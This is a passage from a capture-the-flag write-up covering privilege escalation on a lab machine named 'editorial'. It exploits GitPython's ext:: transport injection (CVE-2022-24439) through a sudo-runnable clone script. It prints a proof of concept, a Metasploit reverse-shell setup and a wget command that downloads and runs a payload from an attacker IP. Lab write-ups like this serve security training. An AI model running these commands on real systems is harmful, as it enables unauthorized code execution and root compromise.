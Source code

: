 Let's see what the script looks like.
```bash
prod@editorial:~$ cat /opt/internal_apps/clone_changes/clone_prod_change.py
#!/usr/bin/python3

import os
import sys
from git import Repo

os.chdir('/opt/internal_apps/clone_changes')

url_to_clone = sys.argv[1]

r = Repo.init('', bare=True)
r.clone_from(url_to_clone, 'new_changes', multi_options=["-c protocol.ext.allow=always"])
```

The script is cloning a repository from a remote URL. And it's using a git library. Let's see which python package is that.
```bash
prod@editorial:~$ pip3 list | grep -i git
gitdb                 4.0.10
GitPython             3.1.29
```

[**CVE-2022-24439**](https://www.cve.org/CVERecord?id=CVE-2022-24439)
According to [SNYK](https://security.snyk.io/vuln/SNYK-PYTHON-GITPYTHON-3113858): Affected versions( < 3.1.30) of `gitpython` package are vulnerable to Remote Code Execution (RCE) due to improper user input validation, which makes it possible to inject a maliciously crafted remote URL into the clone command. Exploiting this vulnerability is possible because the library makes external calls to `git` without sufficient sanitization of input arguments. This is only relevant when enabling the `ext` transport protocol.

**PoC:**
```python
from git import Repo
r = Repo.init('', bare=True)
r.clone_from('ext::sh -c touch% /tmp/pwned', 'tmp', multi_options=["-c protocol.ext.allow=always"])
```

We found our PE vector. To exploit it I used the `msfconsole`'s web delivery module and set payload to `linux/x64/shell/reverse_tcp`. And I uploaded the payload to the `prod` user's home directory.

Metasploit
```bash
msf6 exploit(multi/script/web_delivery) > 
[*] Started reverse TCP handler on 10.10.14.50:4444 
[*] Using URL: http://10.10.14.50:8080/DHmVwiq
[*] Server started.
[*] Run the following command on the target machine:
wget -qO kKqgpCZC --no-check-certificate http://10.10.14.50:8080/DHmVwiq; chmod +x kKqgpCZC; ./kKqgpCZC& disown
```

Executing the payload using the exploit:
```bash
prod@editorial:~$ sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c /home/prod/kKqgpCZC'
```
